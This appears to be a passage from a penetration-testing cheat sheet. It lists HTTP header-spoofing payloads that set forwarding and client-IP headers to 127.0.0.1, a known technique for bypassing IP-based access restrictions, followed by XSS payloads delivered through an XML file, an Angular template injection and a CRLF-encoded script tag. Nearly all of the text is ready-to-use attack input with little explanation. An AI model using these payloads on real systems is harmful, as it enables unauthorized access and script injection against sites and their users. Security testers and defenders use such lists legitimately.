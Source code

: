 ```console
Refferer: 127.0.0.1
Request-Uri: 127.0.0.1
Uri: 127.0.0.1
Url: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Port: 443
X-Forwarded-Port: 4443
X-Forwarded-Port: 80
X-Forwarded-Port: 8080
X-Forwarded-Port: 8443
X-Forwarded-Scheme: http
X-Forwarded-Scheme: https
X-Forwarded-Server: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Host: 127.0.0.1
X-Http-Destinationurl: 127.0.0.1
X-Http-Host-Override: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Proxy-Url: 127.0.0.1
X-Real-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Rewrite-Url: 127.0.0.1
X-True-IP: 127.0.0.1
```

### XXS via XML FIle
```xml
<?xml version=”1.0" encoding=”UTF-8"?>
<xhtml:html xmlns:xhtml=”http://www.w3.org/1999/xhtml">
<xhtml:script>
alert(“XSS”);
</xhtml:script>
</xhtml: html>
```

### XXS via Angular Template Injection
```
{{constructor.constructor(‘alert(“XSS”)’)()}}
```

### CRLF XSS Injection
```
<script>%0d%0aalert(1)</script>
```
